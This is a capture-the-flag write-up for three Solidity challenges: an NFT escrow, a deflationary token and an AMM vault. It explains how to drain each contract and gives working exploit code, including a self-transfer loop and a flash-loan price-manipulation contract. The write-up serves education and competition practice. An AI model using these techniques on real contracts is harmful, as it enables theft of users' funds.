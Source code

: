 ```yaml
---
title: NusgreyhatsCTF_Solutions
date: 2024-04-23 17:49:19
tags:
---
```

## Escrow

### Description
---

Introducing NFT-based escrows - you can deposit assets and trade escrows by selling your ownership NFT! However, I accidentally renounced ownership for my own escrow. Can you help me recover the funds?

### Goal
---
```
grey.balanceOf(address(escrow)) == 0 && grey.balanceOf(msg.sender) >= 10_000e18;
```
### Code
---
DualAssetEscrow.sol:

- This is an escrow contract for holding two types of assets (tokenX and tokenY).
- The contract uses the Clone library to deploy new instances of the escrow contract through cloning.
- The contract has an initialize function to initialize the escrow and check the validity of the passed arguments.
- The owner function returns the current owner of the escrow contract, which is the address holding the EscrowFactory NFT.

EscrowFactory.sol:

- This is an escrow factory contract for deploying and managing DualAssetEscrow contracts.
- The contract inherits the ERC721 standard to represent ownership of the escrow contracts.
- The addImplementation function is used to add implementations of the escrow contract and can only be called by the owner of the factory contract.
- The deployEscrow function is used to deploy new escrow contracts and mint an ERC721 token to represent ownership of the escrow contract.
- The renounceOwnership function is used to permanently renounce ownership of an escrow contract.

Setup.sol:

- This is a contract for setting up the challenge and checking the completion of the challenge.
- In the constructor, the contract deploys the GREY token contract, the EscrowFactory contract, and an instance of the DualAssetEscrow contract.
- The contract deposits 10,000 GREY into the escrow contract and then renounces ownership of the escrow contract.



### Solution
---

Owner goal is to Drain the escrow contract, we can see we drop the ownership of escrow, so we need to be the owner then we can drain the funds.

In `DualAssetEscrow::withdraw()` the check is use `(msg.sender != owner())` not the actual address.

So we just need to fake the escrowId, get the same escrowId `0`, then we can attack successfully.

First we need to pass the `deployEscrow()`，we can find that `address public constant ETH_ADDRESS = address(0);`, so if can fake the escrowId by `(grey,bytes19(abi.encodePacked(address(0)));)`

than we can pass `if (deployedParams[paramsHash]) revert AlreadyDeployed();`

### Exp
---
[Github]()(will push it later)

## Greyhats Dollar
---

### Description
---

Worried about inflation? Introducing GreyHats Dollar (GHD), the world's first currency with deflation built-in! Backed by GREY tokens, GHD will automatically deflate at a rate of 3% every year.

### Goal
---

```
ghd.balanceOf(msg.sender) >= 50_000e18;
```

### Solution
---

Just the self transfer issue, we just need to transfer to ourselves, until our balance reached 50000e18.

### Exp
---

```
while (balance < 50_000e18) {
            setup.ghd().transfer(address(this), balance);
            balance = setup.ghd().balanceOf(address(this));
        }
```

## Simple Amm Vault

### Description
---

ERC-4626 was too complex, so I made an AMM to swap between shares and assets

### Goal
---

```
grey.balanceOf(msg.sender) >= 3000e18;
```

### Code
---

SimpleAMM.sol:
- Simple AMM, Take SV and Grey Token
- Price From Vault by sharePrice()
- swap() have the modifier invariant

SetUp.sol:
- Create AMM and Vault
- deposit 1000e18 GREY to Vault and distribute 1000e18 GREY
- claim() function give msg.sender 1000e18 GREY

SimpleVault.sol:
- deposit GREY and get SV



### Solution
---

From setup, we can see that there are 2000e18 assets in Vault, but only 1000e18 SV was minted.

If we want to swap in AMM, we need to pass the invariant, but now the price is 2000:1000 = 2
the k is set to 3000, but the reserveX and reserveY only 1000e18, so first we need to change the price by using flashloan in amm.

that's the answer:
1. flashloan 1000e18 SV
2. burn and get 2000e18 GREY back
3. deposit 1000e18 GREY to vault, make the price to 1
4. call swap() to drain all GREY in amm.

### Exp
---

```solidity
contract Exploit {
    Setup setup;

    constructor(address _setup) {
        setup = Setup(_setup);
    }

    function solve() external {
        // Claim 1000 GREY
        setup.claim();

        // Flash loan 1000 SV from the AMM
        setup.amm().flashLoan(true, 1000e18, "");

        // Drain 1000 GREY from the AMM
        setup.amm().swap(true, 0, 1000e18);

        // Transfer all GREY to msg.sender
        setup.grey().transfer(msg.sender, setup.grey().balanceOf(address(this)));
    }

    function onFlashLoan(uint256 svAmount, bytes calldata) external {
        // Burn 1000 SV for 2000 GREY
        setup.vault().withdraw(svAmount);

        // Deposit 1000 GREY for 1000 SV. Share price is now 1:1
        setup.grey().approve(address(setup.vault()), 1000e18);
        setup.vault().deposit(1000e18);

        // Approve SV for AMM to return the flash loan
        setup.vault().approve(address(setup.amm()), svAmount);
    }
}
```
